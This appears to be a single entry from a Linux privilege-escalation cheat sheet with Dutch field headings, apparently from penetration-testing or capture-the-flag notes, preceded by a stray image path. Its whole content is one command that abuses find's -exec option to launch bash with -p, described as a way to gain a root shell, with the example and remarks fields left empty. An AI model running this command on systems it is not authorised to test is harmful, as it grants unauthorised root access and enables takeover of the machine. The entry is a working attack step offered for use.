 # 18. Linux Privilege Esc — Entry 60

## Categorie

Abuse find

## Commando

```
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

## Omschrijving

```
Abuse the find command to gain a root shell
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

